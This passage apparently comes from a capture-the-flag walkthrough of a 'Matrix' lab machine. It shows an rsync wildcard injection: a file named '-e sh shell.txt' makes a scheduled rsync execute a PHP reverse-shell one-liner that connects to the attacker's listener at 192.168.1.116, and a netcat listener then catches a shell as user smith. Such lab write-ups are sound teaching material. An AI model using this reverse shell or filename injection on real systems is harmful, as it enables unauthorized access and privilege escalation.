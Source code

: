 ```bash
/bin/sh -c cd /var/www/M47r1X.matrix.nyx && rsync -e "ssh -o BatchMode=yes"  -t *.txt matrix:/home/smith/messages/ > /dev/null 2>&1
```

Since we have write permissions in `/var/www/M47r1X.matrix.nyx`, we can attempt an `rsync Wildcard` attack. More information can be found at https://www.exploit-db.com/papers/33930.

We create the file `shell.txt` using `nano` and the file `-e sh shell.txt`.

```bash
www-data@matrix:/var/www/M47r1X.matrix.nyx$ cat shell.txt
php -r '$sock=fsockopen("192.168.1.116",12345);exec("/bin/bash <&3 >&3 2>&3");'

www-data@matrix:/var/www/M47r1X.matrix.nyx$ touch ./'-e sh shell.txt' 
www-data@matrix:/var/www/M47r1X.matrix.nyx$ ls -la
total 40
-rw-r--r-- 1 www-data www-data    0 Jan 29 14:26 '-e sh shell.txt'
drwxr-xr-x 2 www-data www-data 4096 Jan 29 14:26  .
drwxr-xr-x 4 root     root     4096 Jan 28 21:00  ..
-rw-r--r-- 1 root     root      361 Jan 27 02:47  filtrate-backend-matrix.php.txt
-rw-r--r-- 1 root     root     1765 Jan 27 01:04  hoja.css
-rw-r--r-- 1 root     root     4782 Jan 28 23:55  index.php
-rw-r--r-- 1 root     root      806 Jan 27 00:48  matrix.js
-rw-r--r-- 1 www-data www-data   17 Jan 29 13:26  messages.txt
-rw-r--r-- 1 www-data www-data   34 Jan 29 13:27  shell.php
-rw-r--r-- 1 www-data www-data   80 Jan 29 14:25  shell.txt
```

On our attacking machine, we start listening with Netcat.

```
nc -lvnp 12345
```

And after one minute, we obtain a shell as the `smith` user.

![alt text](../../assets/images/matrix/image-16.png)
